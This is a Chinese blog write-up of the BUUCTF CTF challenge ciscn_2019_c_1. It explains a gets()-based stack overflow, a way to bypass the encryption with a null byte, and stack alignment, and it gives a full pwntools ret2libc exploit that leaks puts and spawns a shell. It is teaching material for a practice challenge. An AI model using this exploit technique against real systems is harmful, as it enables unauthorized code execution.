





<!--yml
category: 未分类
date: 2022-04-26 14:52:45
-->

# BUUCTF ciscn_2019_c_1__N1rvana_的博客-CSDN博客

> 来源：[https://blog.csdn.net/Invin_cible/article/details/121322811](https://blog.csdn.net/Invin_cible/article/details/121322811)

一道积攒了很久才解出来的题，这道题大体不难，但是好多小细节呜呜呜。而且Libcsearcher里的libc库没更新（上篇博客讲了）。

这道题是BUUCTF上的ciscn_2019_c_1。标准的64位ROP流程，我也就分享一下自己的坎坷心路历程。

# 代码审计



老规矩checksec一下，只开了nx保护。

观察main函数



显然哦，只有输入1才有点用。

## 关键函数:encrypt()



发现一个栈溢出漏洞。ROP链的入口。

然后就是读取s的长度，在长度范围内对内容进行加密：也就是根据ascii码范围不同来进行异或操作。

这个解密函数会把读入的s给加密，把你的内容替换掉。

# 解题思路

## 1.通过gets（）函数构造ROP链：

64位程序里面的传参方式是前六位参数为寄存器传参，故不能直接把参数写在栈里，需要通过gadgets来实现控制寄存器的值从而控制函数参数的值。

实用工具：ROPgadgets

```
ROPgadget --binary 文件名 
```

即可查看程序本身的gadget。这里只会用到第一个寄存器rdi，因此去找pop rdi的指令即可。



```
pop_rdi_addr = 0x400c83 
```

然后通过 p64(pop_rdi_addr)+p64(参数值)+p64(函数地址) 即可调用函数

## 2.绕过加密函数，防止输入内容被篡改：

### 方法一：

关于绕过加密函数，网上异口同声的一种方法：

输入encrypt(s)，也就是说先给要输入的内容异或一次，然后程序在给异或过的信息再异或一次。

异或的加法逆元，导致一个数与相同的另一个数异或两次，就会回到最初的值。

例如(a^b)^b=a

这种方法确实可以，不过感觉很繁琐，首先得把加密函数稍微改一下加进自己的exp里。

现在在网上基本上很难找到不同的解法了，感觉大家都流水线过一遍，也不想去思考或者也不愿意去分享自己更好的做法了。很可惜，李杜诗篇万口传，至今已觉不新鲜。

### 方法二：

也是偶然发现的，并没有加密，发过去代码依然成功运行并且得到了flag。

后来想了想，大概是因为64位里面的地址高位都是0，造成了\x00截断，于是strlen（）函数读取的长度变得更短，没有威胁到我们payload后面关键的地址部分。

```
payload = b'a'*0x58+p64(pop_rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main_addr) 
```

### 方法三：

根据第二种方法得到启发，直接令payload第一位为’\x00’，这样strlen（）读取到的就是0，就不会进行加密。

```
payload = b'\x00'+b'a'*0x57+p64(pop_rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main_addr) 
```

# 最终exp:

```
from pwn import *
from LibcSearcher import *
context.log_level='debug'

r=process('/mnt/hgfs/ubuntu/BUUCTF/ciscn_2019_c_1')
elf = ELF('/mnt/hgfs/ubuntu/BUUCTF/ciscn_2019_c_1')
ret = 0x4006b9
pop_rdi_addr = 0x400c83
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main_addr = elf.sym["main"]
r.sendlineafter(b"Input your choice!\n",b'1')
payload = b'\x00'+b'a'*0x57+p64(pop_rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
r.recvuntil(b"encrypted\n")
r.sendline(payload)
r.recvuntil(b"Ciphertext\n")

r.recvuntil(b"\n")

puts_addr = u64(r.recvline()[:-1].ljust(8,b'\0'))
print(hex(puts_addr))
libc = LibcSearcher("puts",puts_addr)
libc_base = puts_addr - libc.dump("puts")
system_addr = libc_base+libc.dump("system")
bin_sh = libc_base+libc.dump("str_bin_sh")
r.sendlineafter(b"Input your choice!\n",b'1')

payload1 = b'\x00'+b'a'*0x57+p64(ret)+p64(pop_rdi_addr)+p64(bin_sh)+p64(system_addr)

r.recvuntil(b"encrypted\n")
r.sendline(payload1)
r.interactive() 
```

## 遇到的问题：

### 1.没收到puts真实地址

出现在exp里第一个# #夹着的地方。

观察encrypt（）函数应该是在ROP后先输出Ciphertext后就会返回，而返回地址已被我们劫持成puts（）来打印出puts真实地址。因此我们的puts真实函数地址应该在 r.recvuntil(b"Ciphertext\n") 后就可以收到。但是我通过这样接收到的puts地址，Libcsearcher找到了几百个libc，明显说明地址错误。

后来才发现：



encrypt()函数在返回之前还调用了一次puts()函数来打印加密后的s，然后才retn。因此我们需要再接受一行，接下来收到的才是puts（）的真实地址。

```
r.recvuntil(b"Ciphertext\n")
r.recvuntil(b"\n")
puts_addr = u64(r.recvline()[:-1].ljust(8,b'\0')) 
```

### 2.依然GOT EOF

借鉴网上的wp，似乎是因为高版本ubuntu里调用system函数的时候需要满足堆栈平衡，就是说调用函数之前的字节数需要是16的倍数。之前我的payload是这样的：

```
payload1 = b'\x00'+b'a'*0x57+p64(pop_rdi_addr)+p64(bin_sh)+p64(system_addr) 
```

这样的话在调用system函数之前一共有0x58+8*2=104个字节，不是16的倍数。

这种情况，就在填充字符后面加一个ret指令的地址就行，一个不行就找两个，ret的地址依然可以用ROPgadget工具找。

```
payload1 = b'\x00'+b'a'*0x57+p64(ret)+p64(pop_rdi_addr)+p64(bin_sh)+p64(system_addr) 
```

### 3.关于我的字符串前面都带一个b

我的python版本太高啦，是python3。似乎python3有八个字节的byte，所以它每次都会报这样的错误：

```
BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes 
```

查看链接网址后提示在每个字符串前面加上b即不会出现错误警告
python3有八个字节的byte，所以它每次都会报这样的错误：

```
BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes 
```

查看链接网址后提示在每个字符串前面加上b即不会出现错误警告